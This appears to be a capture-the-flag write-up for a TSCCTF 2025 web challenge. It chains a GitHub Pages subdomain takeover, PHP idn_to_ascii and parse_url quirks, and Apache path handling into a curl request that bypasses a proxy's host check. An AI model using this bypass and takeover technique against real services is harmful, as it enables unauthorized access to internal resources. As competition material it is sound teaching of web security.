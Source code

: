 1. `*.tscctf-2025.ctftime.uk` points to `ching367436.github.io. Therefore, it is possible to perform a subdomain takeover using GitHub Pages.
```
❯ dig test.tscctf-2025.ctftime.uk     
# ...
ching367436.tscctf-2025.ctftime.uk. 300    IN CNAME ching367436.github.io.
# ...
```

2. PHP `idn_to_ascii` will return false when encountering an error.
```php
// https://github.com/php/php-src/blob/php-8.2.25/ext/intl/idn/idn.c#L78
len = uidna_nameToASCII_UTF8(uts46, ZSTR_VAL(domain), ZSTR_LEN(domain),
    ZSTR_VAL(buffer), buffer_capac, &info, &status);
// [...] https://github.com/php/php-src/blob/php-8.2.25/ext/intl/idn/idn.c#L100-L104
if (info.errors == 0) {
  RETVAL_STR_COPY(buffer);
} else {
  RETVAL_FALSE;
}
```

3. Apache will serve `/index.php` even for the path like `/index.php/whatever`.

4. `index.php` will be parsed as host when prepending one additional `/` to `/index.php`.
```php
php > var_dump(parse_url('/index.php/test.tscctf-2025.ctftime.uk/?service=%e4'));
array(2) {
  ["path"]=>
  string(39) "/index.php/test.tscctf-2025.ctftime.uk/"
  ["query"]=>
  string(11) "service=%e4"
}
php > var_dump(parse_url('//index.php/test.tscctf-2025.ctftime.uk/?service=%e4'));
array(3) {
  ["host"]=>
  string(9) "index.php"
  ["path"]=>
  string(29) "/test.tscctf-2025.ctftime.uk/"
  ["query"]=>
  string(11) "service=%e4"
}
```

5. Combine the above to get the flag.

```sh
curl 'http://proxy-revenge-domain//index.php/4347835712Jjdiiefd.tscctf-2025.ctftime.uk/?service=%e4'
```

6. Write-up by other people:
- https://blog.maple3142.net/2025/01/16/tscctf-2025-writeups/#proxy-revenge